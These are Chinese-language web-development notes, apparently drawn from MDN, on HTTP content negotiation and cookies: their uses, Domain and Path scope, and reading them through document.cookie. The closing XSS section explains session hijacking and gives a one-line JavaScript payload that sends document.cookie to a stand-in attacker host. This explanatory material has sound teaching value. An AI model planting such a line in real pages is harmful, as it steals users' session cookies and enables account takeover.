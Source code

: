 



## 内容协商

![img](https://images2015.cnblogs.com/blog/718408/201607/718408-20160726110106247-288108702.png)

## Cookies

Cookie主要用于以下三个方面：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）

新的浏览器API已经允许开发者直接将数据存储到本地，如使用 [Web storage API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API) （本地存储和会话存储）或 [IndexedDB](https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API) 。

### Cookie的作用域Section

`Domain` 和 `Path` 标识定义了Cookie的*作用域：*即Cookie应该发送给哪些URL。

`Domain` 标识指定了哪些主机可以接受Cookie。如果不指定，默认为[当前文档的主机](https://developer.mozilla.org/en-US/docs/Web/API/Document/location)（**不包含子域名**）。如果指定了`Domain`，则一般包含子域名。

例如，如果设置 `Domain=mozilla.org`，则Cookie也包含在子域名中（如`developer.mozilla.org`）。

`Path` 标识指定了主机下的哪些路径可以接受Cookie（该URL路径必须存在于请求URL中）。以字符 `%x2F` ("/") 作为路径分隔符，子路径也会被匹配。

例如，设置 `Path=/docs`，则以下地址都会匹配：

- `/docs`
- `/docs/Web/`
- `/docs/Web/HTTP`



通过[`Document.cookie`](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie)属性可创建新的Cookie，也可通过该属性访问非`HttpOnly`标记的Cookie。

```js
document.cookie = "yummy_cookie=choco"; 
document.cookie = "tasty_cookie=strawberry"; 
console.log(document.cookie); 
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

### 会话劫持和XSS

在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行[XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)攻击。

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
